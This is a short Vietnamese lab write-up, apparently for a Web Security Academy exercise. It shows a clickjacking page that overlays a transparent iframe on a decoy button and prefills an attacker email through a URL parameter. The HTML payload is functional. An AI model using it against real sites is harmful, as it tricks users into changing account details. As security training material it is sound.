 ## Clickjacking with form input data prefilled from a URL parameter

---

Cũng craft HTML để lừa người dùng nhấp vào đổi mật khẩu, ở đây chúng ta sẽ dùng `?email=hacker@net` để tự động điền `hacker@net` vào form

```
<style>
    #vuln_site{
        position:relative;
        width:1000px;
        height:800px;
        opacity:0.1;
        z-index:2;
    }
    #evil_site{
        position:absolute;
        top:480px;
        left:50px;
        z-index:1;
    }
</style>
<div id="evil_site">Click me</div>
<iframe id="vuln_site" src="https://0a7600e0045c95aec279078b00840041.web-security-academy.net/my-account/?email=hacker@net">
</iframe>
```

![image](https://user-images.githubusercontent.com/68894302/175106435-7d95397c-905f-4319-8593-a748a57b2fa4.png)

Quan sát thấy `Click me` chưa trùng với `Update email` nên chúng ta cần điều chỉnh lại giá trị `top` trong style.

![image](https://user-images.githubusercontent.com/68894302/175106791-fd50bdf3-43e0-4cbe-ba0f-9921b462ccb3.png)